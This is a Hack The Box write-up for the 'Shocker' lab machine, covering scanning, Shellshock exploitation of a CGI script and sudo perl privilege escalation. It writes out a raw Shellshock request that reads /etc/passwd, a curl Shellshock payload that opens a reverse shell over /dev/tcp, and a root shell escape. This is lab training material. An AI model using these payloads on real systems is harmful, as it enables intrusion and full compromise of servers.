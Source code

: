 ```yaml
---
title:     "Hack The Box - Shocker"
tags: [linux,easy,sudo,shellshock]
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/1.png)

We are going to pwn Shocker from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/108>


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

## Checking ShellShock Exploit 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/3.png)<br/>
My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Getting Shell

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/4.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/5.png)

We have an user called ``shelly``

## Privilege Escaltion

I uploaded my Linux Enumeration Script and found that ``perl`` can run as root without password.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/6.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/7.png)

We got ROOT ~

## Method 2 (Without Metasploit)

We can get shell without using metasploit

By injecting the `UserAgent` Manually I can read the `/etc/passwd` so by using this I can get reverse shell too.
```bash
root@kali:~/Downloads# echo -e "HEAD /cgi-bin/user.sh HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 10.10.10.56 80
HTTP/1.1 200 OK
Date: Tue, 07 Jul 2020 04:21:30 GMT
Server: Apache/2.4.18 (Ubuntu)
root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin: x:2:2:bin:/bin:/usr/sbin/nologin
sys: x:3:3:sys:/dev:/usr/sbin/nologin
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/usr/sbin/nologin
man: x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp: x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail: x:8:8:mail:/var/mail:/usr/sbin/nologin
news: x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp: x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy: x:13:13:proxy:/bin:/usr/sbin/nologin
www-data: x:33:33:www-data:/var/www:/usr/sbin/nologin
backup: x:34:34:backup:/var/backups:/usr/sbin/nologin
list: x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc: x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody: x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync: x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network: x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve: x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy: x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog: x:104:108::/home/syslog:/bin/false
_apt: x:105:65534::/nonexistent:/bin/false
lxd: x:106:65534::/var/lib/lxd/:/bin/false
messagebus: x:107:111::/var/run/dbus:/bin/false
uuidd: x:108:112::/run/uuidd:/bin/false
dnsmasq: x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd: x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly: x:1000:1000:shelly,,,:/home/shelly:/bin/bash
Connection: close
Content-Type: text/x-sh
```

Reference:
>https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3

So All we need to do is run this command on our machine and listening on another terminal

```bash
curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0<&1 2>&1' http://10.10.10.56/cgi-bin/user.sh
```

It is injecting on the `` User-Agent `` on the request header.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/8.png)

WE got ``shelly`` and Privilege Escalation is as same as before.